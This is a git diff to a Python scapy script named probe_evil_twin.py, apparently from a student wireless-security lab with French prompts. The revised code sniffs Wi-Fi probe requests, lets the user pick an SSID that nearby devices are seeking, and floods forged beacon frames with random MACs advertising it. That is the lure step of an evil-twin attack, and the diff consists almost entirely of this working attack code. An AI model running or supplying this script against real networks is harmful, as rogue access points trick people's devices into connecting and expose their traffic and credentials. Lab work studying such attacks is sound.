

Add files via upload

diff --git a/Part02/probe_evil_twin.py b/Part02/probe_evil_twin.py
@@ -5,7 +5,7 @@ from scapy.all import *
 from scapy.layers.dot11 import Dot11Beacon, Dot11, Dot11Elt, RadioTap, Dot11ProbeReq
 
 probes = {}
-ap_list = {}
+
 
 
 # Find probes
@@ -23,73 +23,43 @@ def find_probes(pkt):
         channel = stats.get("channel")
         # add probe to the list
         if essid not in probes:
-            probes[essid] = [essid, ssidA, channel]
+            probes[essid] = [essid, ssid, channel]
 
 
-def add_network(pkt):
-    if pkt.haslayer(Dot11Beacon):
-        # extract the MAC address of the network
-        essid = pkt[Dot11Elt].info
-        # get the name of it
-        ssid = pkt[Dot11Elt].info.decode()
-        try:
-            dbm_signal = pkt.dBm_AntSignal
-        except:
-            dbm_signal = "N/A"
-        # extract network stats
-        stats = pkt[Dot11Beacon].network_stats()
-        # get the channel of the AP
-        channel = stats.get("channel")
-        if essid not in ap_list:
-            ap_list[essid] = [essid, dbm_signal, channel]
-            ap_list[essid] = [essid, dbm_signal, channel]
 
 
-# change the channel
-def channel_hop(ch):
-    new_ch = (ch + 6) % 14
-    return new_ch
 
 
-# generate_probeRq for the evil twin
-def generate_probeRq(iface, ssid):
+def generate_beacon(iface, ssid):
     sender_MAC = RandMAC()
-    # 802.11 frame with subtype 04 as probe Request
-    dot11 = Dot11(type=0, subtype=4, addr1="ff:ff:ff:ff:ff:ff", addr2=sender_MAC, addr3=sender_MAC)
+    # 802.11 frame
+    dot11 = Dot11(type=0, subtype=8, addr1="ff:ff:ff:ff:ff:ff", addr2=sender_MAC, addr3=sender_MAC)
     bc = Dot11Beacon(cap="ESS+privacy")
+    channel = Dot11Elt(ID="DSset", info=chr(6))
     essid = Dot11Elt(ID="SSID", info=ssid, len=len(ssid))
-    pkt = RadioTap() / dot11 / bc / essid
+    pkt = RadioTap() / dot11 / bc / essid / channel
     sendp(pkt, iface=iface, loop=2, inter=0.2)
 
 
 if __name__ == "__main__":
+
     # fixing interface and timeout
     # interface name
     interface = "wlan0"
     t_out = input("Sniffing timeout: ")
-    # start sniffing
-    sniff(prn=add_network, iface=interface, timeout=int(t_out))
 
-    cnt = 0
-    channels = []
+    sniff(prn=find_probes, iface=interface, timeout=int(t_out))
     ssids = []
-    print("Liste d'Access point scanned:")
-    for i in ap_list:
+	
+    print("probes scanned:")
+    cnt = 0
+    for i in probes:
         cnt += 1
-        channels.append(ap_list.get(i)[2])
-        ssids.append(ap_list.get(i)[0])
-        print(cnt, ap_list.get(i))
+        ssids.append(probes.get(i)[0])
+        print(cnt, probes.get(i))
 
     # select target network
     tg_index = int(input("Tapez le numero de la cible : "))
-    tg_ch = channels[int(tg_index) - 1]
     tg_ssid = ssids[int(tg_index - 1)]
 
-    generate_probeRq(interface, tg_ssid)
-
-    sniff(prn=find_probes, iface=interface, timeout=int(t_out))
-
-    #print("probes scanned:")
-    #for i in probes:
-        #cnt += 1
-        #print(cnt, probes.get(i))
+    generate_beacon(interface, tg_ssid)
